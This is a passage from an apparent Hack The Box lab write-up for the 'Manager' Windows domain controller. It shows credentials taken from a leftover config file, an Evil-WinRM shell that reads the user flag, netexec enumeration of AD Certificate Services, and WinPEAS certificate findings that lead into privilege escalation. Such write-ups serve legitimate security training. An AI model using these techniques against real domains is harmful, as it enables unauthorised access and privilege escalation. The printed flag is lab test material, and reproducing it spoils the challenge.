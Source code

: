 ```
      </access-user>
```
I got the credentials for the user `raven` from `.old-conf.xml` file. 

###### `Evil-WinRM Shell for user Raven & User Flag`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> cd C:\Users\Raven\Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
e4e57000a3f3e55555967ee9dbdc05d0
*Evil-WinRM* PS C:\Users\Raven\Desktop> whoami
manager\raven
```

###### `AD CS Certificate Enumeration using netexec -M Module_Name`
```
# netexec smb 10.10.11.236 -M enum_ca -u 'guest' -p ''        
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
ENUM_CA     10.10.11.236    445    DC01             Active Directory Certificate Services Found.
ENUM_CA     10.10.11.236    445    DC01             http://10.10.11.236/certsrv/certfnsh.asp
```

### Privilege Escalation

###### `WinPEAS.exe Findings`
```
COMPUTERNAME: DC01
PSModulePath: C:\Users\Raven\Documents\WindowsPowerShell\Modules; C:\Program Files\WindowsPowerShell\Modules; C:\Windows\system32\WindowsPowerShell\v1.0\Modules; C:\Program Files (x86)\Microsoft SQL Server\150\Tools\PowerShell\Modules\
PROCESSOR_ARCHITECTURE: AMD64

######### Enumerating machine and user certificate files
  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
  Subject            : CN=manager-DC01-CA, DC=manager, DC=htb
  ValidDate          : 7/27/2023 3:21:05 AM
  ExpiryDate         : 7/27/2122 3:31:04 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : ACE850A2892B1614526F7F2151EE76E752415023

   =================================================================================================

  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
  Subject            : CN=dc01.manager.htb
  ValidDate          : 9/8/2024 1:09:53 PM
  ExpiryDate         : 9/8/2025 1:09:53 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 5AC7E799E382826DC5D738E5BC6100A9410DA4C3

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =================================================================================================

  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
```